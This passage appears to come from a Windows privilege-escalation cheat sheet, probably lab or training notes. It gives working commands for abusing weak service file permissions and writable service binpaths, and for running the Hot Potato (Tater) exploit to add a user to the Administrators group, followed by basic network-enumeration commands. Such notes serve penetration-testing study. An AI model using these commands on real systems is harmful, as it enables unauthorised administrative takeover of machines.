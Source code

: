 ```
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"
```

If it returns `FILE_ALL_ACCESS` then we can replace this executable with a malicious payload and restart the service to execute.

```
copy /y c:\Temp\x.exe "c:\Program Files\File Permissions Service\filepermservice.exe"
sc start filepermsvc
```

**Binary Path**

We can use a tool from SysInternals to check what access we have for `daclsvc`

```
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc daclsvc
```

If our user has the “SERVICE_CHANGE_CONFIG” permission we can modify the `binpath` and add our user

```
sc config daclsvc binpath= "net localgroup administrators user /add"
sc start daclsvc
net localgroup administrators
```

**Hot Potato**

If the machine is vulnerable to the Hot Potato exploit, we can move the powershell script to the target machine and use it to add our user to the `Administrators` group.

```
powershell.exe -nop -ep bypass
Import-Module C:\Users\User\Desktop\Tools\Tater\Tater.ps1
Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"
net localgroup administrators
```

### Network Enumeration

**Network Connections**

Check the network information

```
ipconfig
ipconfig /all
```

Check the ARP table for other IPs with

```
arp -a
```

Check the route that devices are communicating

```
route print
```
